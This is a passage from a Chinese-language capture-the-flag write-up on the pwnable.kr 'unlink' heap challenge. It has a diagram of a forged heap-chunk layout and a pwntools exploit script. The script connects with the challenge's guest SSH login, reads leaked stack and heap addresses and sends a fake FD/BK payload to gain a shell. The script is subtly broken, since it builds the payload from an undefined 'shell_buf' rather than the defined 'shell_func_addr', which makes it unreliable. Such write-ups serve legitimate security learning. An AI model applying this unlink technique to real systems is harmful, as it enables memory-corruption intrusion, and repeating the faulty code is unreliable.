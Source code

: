 或者利用`FD->bk=BK`得到以下布局

	+-------------------+-------------------+  <- [A]
	|        FD         |        BK         |
	+-------------------+-------------------+  <- [A->buf]
	|     shell addr    |      'aaaa'       |
	+---------------------------------------+
	|              'aaaaaaaa'               |
	+---------------------------------------+  <- [B]
	|     &A + 12       |     A + 12        |
	+-------------------+-------------------+


漏洞利用代码
```
# -*- coding: utf-8 -*-

from pwn import *
#context(log_level="debug")
s =  ssh(host='pwnable.kr',
         port=2222,
         user='unlink',
         password='guest'
        )
p = s.process("./unlink")

p.recvuntil("here is stack address leak: ")
stack_addr = int(p.recv(10),16)
p.recvuntil("here is heap address leak: ")
heap_addr = int(p.recv(9),16)

p.recvuntil("now that you have leaks, get shell!\n")

shell_func_addr = 0x080484eb
padding = 'A'*12
#方法一
fdB = heap_addr + 12
bkB = stack_addr + 16
'''
#方法二
或者交换位置，但要重新计算偏移值
bkB = heap_addr + 12
fdB = stack_addr + 12
'''
payload = p32(shell_buf) + padding + p32(fdB) + p32(bkB)

p.sendline(payload)

p.interactive()
```
